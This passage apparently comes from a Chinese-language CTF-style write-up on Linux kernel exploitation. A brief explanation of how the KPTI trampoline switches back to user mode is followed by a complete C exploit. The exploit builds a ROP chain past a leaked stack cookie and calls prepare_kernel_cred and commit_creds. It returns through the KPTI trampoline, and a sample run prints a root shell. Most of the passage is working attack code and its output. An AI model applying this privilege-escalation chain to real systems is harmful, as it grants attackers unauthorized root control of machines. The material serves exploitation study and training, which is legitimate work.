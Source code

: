 从第一个mov指令开始，会将原栈指针保存然后获取另一个内核栈并将**|ip|cs|rflags|sp|ss|(原来栈上的环境)**依次入栈，主要进行swapgs和cr3切换最后iretq返回用户态，期间有多余的两次pop需要注意

**<a class="reference-link" name="Exp"></a>Exp**

```
unsigned long kpti_trampoline = 0xffffffff81200f10 + 22;
void overflow_nx4(void)`{`
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0;    //rbx
    payload[off++] = 0x0;    //r12
    payload[off++] = 0x0;    //rbp
    payload[off++] = pop_rdi_ret;    //ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;    
    payload[off++] = pop_rdx_ret;
    payload[off++] = 8;
    payload[off++] = cmp_rdx_jne_pop2_ret;
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi &lt;- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; 
    payload[off++] = kpti_trampoline;
    payload[off++] = 0x0;        //dummy rax
    payload[off++] = 0x0;        //dummy rdi
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Payload done!");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[*] Should nerver be reached");
`}`
/*
/ $ ./exploit 
[*] Saved state
[*] Opened device

[*] Leaked 160 bytes
[*] Cookie: a9deb7e729571200
[*] Payload done!
[*] Return to userland
[*] UID: 0, got root!
/ # 
*/
```
